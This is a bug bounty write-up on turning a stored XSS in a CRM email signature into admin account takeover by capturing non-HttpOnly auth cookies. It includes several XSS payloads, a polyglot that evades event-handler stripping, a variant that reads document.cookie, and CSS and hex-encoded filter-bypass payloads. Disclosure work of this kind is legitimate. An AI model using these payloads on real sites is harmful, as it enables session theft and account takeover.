 # XSSed-Admin-Account
# How I XSSed Admin Account
Hello Guys, recently I encountered with some Stored XSS on a web application which helped me takeover any account on the application.
Although some of the Stored XSS was easy to find, the impact which it had on the application was near critical and hence I’ll pick one of the cases in this post to explain the Impact.

# Case Study: Stored XSS to Account Takeover
The application ******* was under test was a three-tier web application – Presentation tier (Front-End/User Interface), Application Tier (Functional Logic) and Data-Tier (Databases). The application is a CRM application used for scheduling meetings, phone calls and sending Emails. The application used tokens to authenticate users when the user logged in the application. Using tokens added a layer of protection from CSRF and hence prevented requests to be sent on behalf of the user.

The token was generated as follows:
The username and some random string were encoded into base64 as-

admin:d4sb6bdfhfyr7hasdr434df was encoded as YWRtaW46ZDRzYjZiZGZoZnlyN2hhc2RyNDM0ZGY=

This token was added to every request and removing the token would send the request as unauthorized.
On checking the request to the site:

GET /******/ HTTP 1.1
Host: localhost
Authorization: Basic YWRtaW46ZDRzYjZiZGZoZnlyN2hhc2RyNDM0ZGY=
Espo-Authorization: YWRtaW46ZDRzYjZiZGZoZnlyN2hhc2RyNDM0ZGY=
Cookie: auth-username=admin; auth-token= d4sb6bdfhfyr7hasdr434df

We can see that the two major elements to form the Auth token were inside the cookie of the request. The Authorization token was constructed as follows:

Base64 encoding of (auth-username:authtoken)

Now, all we needed was to get a Reflected or Stored XSS on the application to take over any user as the cookies which form the token are not set as HttpOnly and can be captured by an attacker if he finds a way to deliver the malicious JavaScript.

The application had a preference tab where the user could set his email signature which is added to every email. The Email signature had various markdown methods. One of the features in the markdown which got my attention was the Code View feature on which you could try inserting HTML code inside the signature for better looks.

# The first attempt:
<svg/onload=alert(1)> was inserted in the code view field. On clicking the close code view feature, the alert box popped. This worked at that moment but on clicking on save, the event handlers were stripped in the application

Payload: <svg/onload=alert(1)>

Final response: <svg/[data-handler-stripped]=alert(1)>

# The second attempt:
XSS via Html Injection and Iframe. <a> tags and <iframe> tags were accepted by the application. Using the payload <a href=javascript:alert(1)>test</a> or the same with Iframe, the tags were inserted into the application but stripped the href or src values.

Payload: <a href=javascript:alert(1)>test</a>

Response:<a>test</a>

Payload: <iframe src=javscript:alert(1)></iframe>

Response: <iframe></iframe>

After this all payloads from Payloads all the things were tried, but there was no luck. While scrolling through the section about XSS in the same GitHub page, I stumbled across this polyglot XSS payload from Somdev Sangwan.

–>'”/></sCript><svG x=”>” onload=(co\u006efirm)“>

As this payload was inserted, it was seen that the XSS was permanently stored on the Preference page.
The code was then modified as such to steal cookies of the user.

–> “/><svg x=”>” onload=”(co\u006efirm)(document.cookie)”></svg>

The payload was very impactful to generate the stored XSS inside the Email as it would fire when the victim would reply or forward the Email having XSS inside the Email Signature.

Now all the attacker needed to do was send an Email to the admin of the application who when replied to the mail executed the malicious JavaScript. The attacker would now steal the cookies of admin and construct the Authorization token of the admin and hence completely take over his account.


# BugBounty Tips:
Xss using css:
<style>img{background-image:url(‘javascript:alert(1)’)}</style>

firewall bypass:
<style>*{background-image:url(‘\6A\61\76\61\73\63\72\69\70\74\3A\61\6C\65\72\74\28\6C\6F\63\61\74\69\6F\6E\29’)}</style>
